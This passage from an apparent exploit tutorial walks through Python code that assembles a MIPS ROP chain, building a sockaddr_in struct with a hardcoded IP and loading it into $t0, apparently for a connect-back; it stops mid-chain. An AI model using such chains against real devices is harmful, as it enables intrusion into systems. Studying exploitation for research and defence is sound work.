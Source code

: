 With these arguments set, we can finally construct the *sockaddr_in* struct with the following gadgets - the comments do a pretty good job explaining what is happening. We are basically copying the memory address with the desired values (*0x0* *0x2*) I mentioned earlier, and appending the IP address of the target:

```
-python
# s1 has our sockaddr address, load address of afinet into v0
# 0x00057864: lw $v0, ($sp); lw $ra, 0xc($sp); jr $ra; addiu $sp, $sp, 0x10; 
chain += p32(harcdoded_afinet) # v0
chain += b'b' * 8
chain += p32(0x1a46dc + base_address) # ra

# Load hardcoded afinet stuff into v0 (currently has the address)
# 0x001a46dc: lw $v0, ($v0); lw $ra, 4($sp); jr $ra; addiu $sp, $sp, 8; 
chain += b'b' * 4
chain += p32(0x13e134 + base_address) # ra

# Store the afinet stuff at our sockaddr struct
# 0x0013e134: sw $v0, ($s1); lw $ra, 0x14($sp); lw $s3, 0x10($sp); lw $s2, 0xc($sp); lw $s1, 8($sp); lw $s0, 4($sp); jr $ra; addiu $sp, $sp, 0x18; 
chain += b'b' * 4
chain += p32(0xdeadbeef) # s0
chain += p32(sockaddr_addr + 4) # s1
chain += p32(0xdeadbeef) # s2
chain += p32(0xdeadbeef) # s3
chain += p32(0x57864 + base_address) # ra

# Load the IP address into v0
# 0x00057864: lw $v0, ($sp); lw $ra, 0xc($sp); jr $ra; addiu $sp, $sp, 0x10; 
chain += struct.pack('>BBBB', 192, 168, 188, 2) # v0, IP
chain += b'b' * 8
chain += p32(0x13e134 + base_address) # ra

# Store the loaded IP address at sockaddr + 4
# 0x0013e134: sw $v0, ($s1); lw $ra, 0x14($sp); lw $s3, 0x10($sp); lw $s2, 0xc($sp); lw $s1, 8($sp); lw $s0, 4($sp); jr $ra; addiu $sp, $sp, 0x18;
chain += b'b' * 4
chain += p32(0xdeadbeef) # s0
chain += p32(0xdeadbeef) # s1
chain += p32(0xdeadbeef) # s2
chain += p32(0xdeadbeef) # s3
chain += p32(0x57864 + base_address) # ra
```

With our *sockaddr_in* struct completed and stored, we can now work on moving it into *$t0*:

```
-python
## Load t0 value into v0
# Load v0 from stack
# 0x00057864: lw $v0, ($sp); lw $ra, 0xc($sp); jr $ra; addiu $sp, $sp, 0x10;
chain += p32(sockaddr_addr) # v0 - sockaddr address
chain += b'b' * 8
chain += p32(0x15d20c + base_address) # ra

# Move sockaddr from v0 into t0 (load v0 from stack, move into t0) 
# 0x0015d20c: move $t0, $v0; lw $ra, 0x2c($sp); addiu $s0, $zero, 0x163; move $v0, $s0; lw $s7, 0x28($sp); lw $s6, 0x24($sp); 
#   lw $s5, 0x20($sp); lw $s4, 0x1c($sp); lw $s3, 0x18($sp); lw $s2, 0x14($sp); lw $s1, 0x10($sp); lw $s0, 0xc($sp); jr $ra; addiu $sp, $sp, 0x30; 
chain += b'b' * 0xc
chain += p32(0xdeadbeef) # s0
chain += p32(0xdeadbeef) # s1
chain += p32(0xdeadbeef) # s2
```
